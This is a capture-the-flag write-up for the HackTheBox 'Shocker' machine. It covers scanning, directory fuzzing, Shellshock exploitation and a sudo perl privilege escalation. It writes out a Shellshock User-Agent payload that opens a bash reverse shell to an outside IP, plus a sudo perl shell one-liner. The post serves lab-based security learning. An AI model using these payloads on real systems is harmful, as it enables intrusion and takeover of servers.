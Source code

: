 ```yaml
---
title: "Shocker"
date: 2023-06-24T23:12:03+02:00
tags: [""]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Desc Text."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Shocker
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Shocker

![Untitled](/HTB/shocker-icon.png)

## Tools Used

- Nmap
- Gobuster
- Burpsuite

## Port Scanning

We can find two service up and running one web server in the port 80 and a ssh in port 2222

![Untitled](/HTB/shocker-1.png)

## Enumeration

If we visit the page we find a basic page with a basic html with only a picture.

![Untitled](/HTB/shocker-2.png)

![Untitled](/HTB/shocker-3.png)

When I tried to fuzz the directories of the website, I found that gobuster doesn’t found anything and after several tests i realized that the website only recognize directories adding “/” at the end of the URL.

![Untitled](/HTB/shocker-4.png)

![Untitled](/HTB/shocker-5.png)

Thanks to the error message of the website, it is observed that when no slash is added, a "not found" page is returned. In this example, the "cgi-bin" directory is tested. "cgi-bin" is specifically tested because the name of the machine gives a clue that it is likely vulnerable to the Shellshock Bash remote code execution vulnerability, which affects web servers utilizing CGI (Common Gateway Interface).

![Untitled](/HTB/shocker-6.png)

A quick fuzzing with the flag "-f" in Gobuster is performed, forcing the slash at the end of the URL. Three directories are discovered. Now, the "/cgi-bin/" directory is fuzzed to search for any interesting file such as .php, .py, .html, .js, or .sh. In this case, the "-f" flag is not used because files are being searched for.

![Untitled](/HTB/shocker-7.png)

We find a file named [user.sh](http://user.sh), lets open it

![Untitled](/HTB/shocker-8.png)

Upon opening it, it is revealed that the file is actually [test.sh](http://test.sh) file

Now let’s focus on the Shellshock vulnerability, the basis of this vuln is to edit the http request to modify the User-Agent to “() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/1234 0>&1” we can do that with burp and allows us with a listening port to have a reverse shell. 

I got all the information about Shellshock here: https://ethicalhackingguru.com/how-to-exploit-the-shellshock-vulnerability/

![Untitled](/HTB/shocker-9.png)

![Untitled](/HTB/shocker-10.png)

## Gaining an Initial Foothold

Once in the home of the pwned user shelly we can see a user.txt which has the flag

![Untitled](/HTB/shocker-11.png)

![Untitled](/HTB/shocker-12.png)

## Privilege Escalation

Now we are in let’s elevate privilege

![Untitled](/HTB/shocker-13.png)

We can see with the sudo -l that we can use perl with root privilegies without any password, let’s take this advantage to pawn the system.

If we check in [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/perl/#sudo) we can use `sudo perl -e 'exec "/bin/sh";'` to escalate privilege.

![Untitled](/HTB/shocker-14.png)

![Untitled](/HTB/shocker-15.png)

## Lessons Learned

- What did you learn from the room?
    
    Now we have learned how to exploit the Shellshock vulnerability to gain remote code execution and how to use sudo permissions to escalate privileges.
    
- Were there any new tools or techniques used?
    
    The use of the flag -f in gobuster for directory fuzzing.

**Thank you for reading, and happy hacking! 😄**